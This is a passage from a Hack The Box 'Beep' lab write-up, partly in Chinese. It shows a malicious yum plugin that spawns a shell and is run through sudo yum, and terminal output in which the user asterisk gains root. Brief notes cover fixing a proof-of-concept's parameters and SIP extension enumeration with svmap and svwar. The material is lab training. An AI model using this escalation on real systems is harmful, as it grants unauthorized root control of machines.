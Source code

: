 ```Bash
> import yum
> from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
> requires_api_version='2.1'
> def init_hook(conduit):
>   os.execl('/bin/sh', '/bin/sh')
> EOF
sh-3.2$ sudo yum -c $TF/x --enableplugin=y
Loaded plugins: y
No plugin match for: y
sh-3.2# id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
sh-3.2# exit
exit
sh-3.2$
sh-3.2$
sh-3.2$ id
uid=100(asterisk) gid=101(asterisk)
sh-3.2$ sudo yum -c $TF/x --enableplugin=y
Loaded plugins: y
No plugin match for: y
sh-3.2# id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
sh-3.2#

```



## beyond root

这题最大的困难在于shell的poc里面的参数是不对的，改了以后才可以

这里有解释但是不太清晰，回头看下题解。

[Hack The Box — Beep Writeup without Metasploit – InfosecJunky](https://infosecjunky.com/hack-the-box-beep-writeup-without-metasploit/)



这里要用到svmap和svwar组件，古老的SIP协议拨号探测，去确认extension的数值。

